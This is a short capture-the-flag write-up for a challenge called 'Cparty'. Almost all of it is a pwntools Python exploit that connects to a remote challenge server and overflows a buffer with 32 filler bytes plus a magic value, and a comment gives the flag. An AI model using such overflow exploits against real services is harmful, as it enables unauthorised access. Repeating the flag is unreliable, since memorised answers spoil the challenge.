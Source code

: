 #Cparty




![](./img/1.png)

To start I connect to the server to see what it asks me :



```python
#!/usr/bin/python
# -*- coding: utf-8 -*-

from pwn import *


p = remote("89.38.210.128", 31338)


p.send("A"*32+p32(0xc0defefe))

p.recv(1024)

p.interactive()

#timctf{d0nt_cr4sh_th3_p4rty_b3_th3_p4rty}
```